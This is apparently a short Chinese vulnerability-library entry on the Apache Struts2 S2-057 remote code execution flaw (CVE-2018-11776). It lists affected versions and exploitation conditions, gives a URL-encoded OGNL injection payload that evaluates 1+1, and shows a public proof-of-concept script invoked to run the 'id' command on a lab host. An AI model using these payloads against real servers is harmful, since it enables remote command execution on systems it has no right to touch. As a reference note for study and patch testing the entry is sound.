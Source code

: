 ```yaml
---
title: 'Struts2 S2-057 远程代码执行漏洞(CVE-2018-11776)'
date: Mon, 05 Oct 2020 08:24:14 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响环境

Struts <= Struts 2.3.34, Struts 2.5.16

#### 利用

S2-057要求具备以下条件: action元素没有设置名称空间属性，或者使用了通配符 名称空间将由用户从uri传递并解析为OGNL表达式，最终导致远程代码执行漏洞。 Payload:```
http://your-ip:8080/%24%7b%31%2b%31%7d/actionChain1.action 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/10/20200630143132425.png) 可以看到算出了1+1=2的结果 参考POC ：https://github.com/Fnzer0/S2-057-poc```
python 1.py -u http://192.168.111.129:8080/{{INJECTION_POINT}}/actionChain1.action -p S2-057-2 -c id --exp 
```![](https://www.bylibrary.cn/wp-content/uploads/2020/10/2020063014315669.png) 发现执行了id命令
